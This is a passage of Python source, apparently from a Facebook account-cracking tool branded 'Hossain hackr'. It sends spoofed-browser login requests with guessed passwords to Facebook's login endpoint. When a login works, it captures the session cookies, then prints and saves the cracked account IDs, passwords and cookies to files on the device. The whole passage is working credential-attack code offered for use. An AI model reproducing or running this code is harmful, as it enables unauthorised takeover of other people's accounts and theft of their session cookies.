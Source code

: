             "accept-encoding": 'gzip, deflate, br',

            "accept-language": 'en-US,en;q=1',

            'cache-control': 'no-cache, no-store, must-revalidate',

            "referer": 'https://t.facebook.com/',

            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',

            "sec-ch-ua-mobile": '?1',

            "sec-ch-ua-platform": "Windows",

            "sec-fetch-dest": 'document',

            "sec-fetch-mode": 'navigate',

            "sec-fetch-site": 'same-origin',

            "sec-fetch-user": '?0',

            "pragma": 'no-cache',

            "priority": 'u=0',

            'cross-origin-resource-policy': 'cross-origin',

            "upgrade-insecure-requests": '1',

            "user-agent": pro}

            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[7:22]

                print('    \033[1;32m[Hossain hackr-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')

                cek_apk(session,coki)

                open('/sdcard/Hossain hackr-OK.txt', 'a').write( cid+' | '+ps+'\n')

                oks.append(cid)

                break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[24:39]

                print('    \33[1;30m[Hossain hackr-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')

                open('/sdcard/Hossain hackr-CP.txt', 'a').write( cid+' | '+ps+' \n')

                cps.append(cid)
